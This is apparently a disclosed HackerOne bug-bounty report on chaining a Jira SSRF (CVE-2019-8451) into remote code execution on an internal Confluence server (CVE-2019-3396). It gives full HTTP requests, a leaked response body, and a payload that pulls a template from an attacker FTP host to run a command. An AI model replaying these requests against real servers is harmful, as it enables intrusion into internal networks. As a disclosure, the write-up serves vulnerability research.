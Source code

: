 # 29

## [ \#713900](https://hackerone.com/reports/713900) Unauthenticated SSRF in jira.tochka.com leading to RCE in confluence.bank24.int

* Asset: QIEWI
* Weakness: Code Injection
* Bounty: $1,000

An interesting vulnerabilities chain allows RCE.

Vul1 is an SSRF trigger by the CVE-2019-8451（[SSRF in the /plugins/servlet/gadgets/makeRequest resource - CVE-2019-8451](https://jira.atlassian.com/browse/JRASERVER-69793).）

PoC: [https://jira.tochka.com:443@example.com/](https://jira.tochka.com:443@example.com/)

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int
```

Get the response about confluence.bank24.int:

```http
throw 1; < don't be evil' >{"https://jira.tochka.com:443@confluence.bank24.int":{"rc":200,"headers":{},"body":"<!DOCTYPE html>\n<html>\n<head>\n                    <title>Рабочий стол - Confluence<\/title>\n    \n        \n\n                        \n    \n                        \n    \n\n    \n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=EDGE,chrome=IE7\">\n<meta charset=\"UTF-8\">\n<meta id=\"confluence-context-path\" name=\"confluence-context-path\" content=\"\">\n<meta id=\"confluence-base-url\" name=\"confluence-base-url\" content=\"https://confluence.bank24.int\">\n\n<meta id=\"atlassian-token\" name=\"atlassian-token\" content=\"f999fa99a5663c168e72b407eecdeec3695c70d0\">\n\n\n<script type=\"text/javascript\">\n        var contextPath = '';\n<\/script>\n\n    \n\n    <meta name=\"confluence-request-time\" content=\"1571051898165\">\n        \n    \n        \n            <meta name=\"ajs-discovered-plugin-features\" content=\"$discoveredList\">\n            <meta name=\"ajs-use-keyboard-shortcuts\" content=\"true\">\n            <meta name=\"ajs-keyboardshortcut-hash\" content=\"97637bc20dfc7a1f15684630bc99897\">\n            <meta id=\"team-calendars-has-jira-link\" content=\"true\">\n            <meta name=\"ajs-team-calendars-display-time-format\" content=\"displayTimeFormat24\">\n            <meta id=\"team-calendars-display-week-number\" content=\"false\">\n            <meta
```



Vul2 is another CVE-2019-3396, case by the Widget Connector

[https://confluence.bank24.int/rest/tinymce/1/macro/preview](https://confluence.bank24.int/rest/tinymce/1/macro/preview%29%20) can be accessed without authentification by design,  and attacker can set up an FTP server to make the RCE:

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 322
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int/rest/tinymce/1/macro/preview&httpMethod=POST&headers=content-type%3Dapplication/json&postData={"contentId":"1","macro":{"body":"","params":{"url":"https://www.youtube.com/watch?v=y6sOtXOvchY","_template":"ftp://68.183.67.159/qwe2.txt","command":"id"},"name":"widget"}}
```

![SSRF](../../../.gitbook/assets/image%20%288%29.png)



![RCE](../../../.gitbook/assets/image%20%2810%29.png)





